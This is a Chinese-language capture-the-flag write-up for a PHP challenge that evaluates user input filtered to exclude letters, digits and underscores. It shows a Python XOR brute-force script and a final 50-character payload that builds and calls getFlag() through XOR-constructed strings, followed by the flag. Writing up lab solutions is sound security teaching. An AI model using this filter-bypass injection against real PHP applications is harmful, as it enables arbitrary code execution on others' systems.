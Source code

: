 
# writeup

首先, bash_token需要设置为t的值即1

其次就是构造code可执行代码, 不能超过50个字符, 不能是大小写字母数字和下划线  
绕过这个才能打印出flag

提示是可以使用getFlag()方法

绕过字符检查的方法就是使用位运算(与,或,非,异或)  
通过位运算得到正常字符的ord


可以穷举一下两个特殊字符如何运算会得到一个可视字符

```python
chrs = ['@', '!', '"', '#', '$', '%', '&', '\'', '(', ')', '*', '+', ',', '-', '.', '/', ':', ';', '<', '=', '>', '?', '[', '\\', ']', '^', '`', '{', '|', '}', '~']

for i in chrs :
    for j in chrs :
        k = (chr(ord(i) ^ ord(j)))
        if k in '_getFlag':
            print(i + ' xor ' + j + ' => ' + k)
```

如果我们要构造出一个`getFlag()`的调用, $code里不能出现`getFlag_`字符  
于是, 我们可以把getFlag字符放在另外一个变量X里, 然后调用该变量`$X()`  
变量边界可以通过`${}`来括起来, 使用下划线表示变量X

```
(1) "!" ^ "~"      #=> _
(2) ${"!" ^ "~"}   #=> $_
(3) ${"!" ^ "~"}() #=> $_()
(4) "getFlag"      #=> "]%];,<<" ^ ":@)}@]["
```

得到的组合很多, 选取其中一组即可

构成语句形如`(2)=(4);(3);`:  
`${ "!" ^ "~" } = "]%];,<<" ^ ":@)}@][" ; ${ "!" ^ "~" }() ;`

由于长度限制在50个字符, 所以还是要压缩一下空格

最终参数:  
`?t=1&code=${"!"^"~"}="]%];,<<"^":@)}@][";${"!"^"~"}();`

提交得到结果:
`flag{3350a246b489aeec436a711c21f1efb7}`

